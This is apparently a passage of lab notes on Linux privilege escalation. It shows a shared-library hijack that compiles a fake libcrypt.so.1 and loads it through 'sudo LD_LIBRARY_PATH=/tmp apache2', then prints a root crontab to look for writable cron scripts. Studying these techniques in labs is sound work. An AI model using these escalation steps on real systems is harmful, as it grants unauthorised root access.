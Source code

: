 
```
user@debian:~/tools/sudo$ ldd /usr/sbin/apache2
	linux-vdso.so.1 =>  (0x00007fffe8bff000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f1941d89000)
	libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f1941b65000)
	libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f194192b000)
	libpthread.so.0 => /lib/libpthread.so.0 (0x00007f194170f000)
	libc.so.6 => /lib/libc.so.6 (0x00007f19413a3000)
	libuuid.so.1 => /lib/libuuid.so.1 (0x00007f194119e000)
	librt.so.1 => /lib/librt.so.1 (0x00007f1940f96000)
	libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f1940d5f000)
	libdl.so.2 => /lib/libdl.so.2 (0x00007f1940b5a000)
	libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f1940932000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f1942246000)
```

### Create a shared object with the same name as one of the listed libraries (libcrypt.so.1)
### using the code located at /home/user/tools/sudo/library_path.c:
`$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c`

```
user@debian:~/tools/sudo$ sudo LD_LIBRARY_PATH=/tmp apache2
apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
```

### Cron Jobs - File Permissions
```
user@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```
